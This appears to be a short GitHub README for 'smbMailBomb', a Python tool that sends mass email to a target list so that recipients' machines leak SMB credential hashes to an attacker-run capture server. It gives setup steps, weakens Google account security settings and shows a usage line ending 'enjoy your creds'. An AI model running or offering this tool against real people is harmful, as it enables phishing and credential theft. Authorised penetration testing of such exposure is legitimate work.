 # smbMailBomb
A command line utility to test for SMB Forced Authentication

#### Set Up Capture Server:
###### Ensure SMB ports 139 and 445 are open on your captuer server
###### Run your capture server.
#### Configure Google to allow the script:
######  In the Google Admin Panel:
######  Click Security
######  Enable Less Secure Apps
#### In the google account settings
######  Click Security
######  Allow Less Secure Apps
#### From the command line run smbMailBomb.py and enjoy your creds:
###### pip install pandas
###### pip install colorama
##### Usage: python3 smbMailBomb2.py -e user@yourGoogleDomain.com -p yourGooglePassword -f path/to/targets.xlsx -ip captureServerIP
######  -f path to target xlsx file
######  -e your google business email
######  -p your google password
######  -ip your capture server IP
#### Requirments:
###### pip install -r requirments.txt
#### XLSX:
###### Add your targets first name and email, following the template provided.

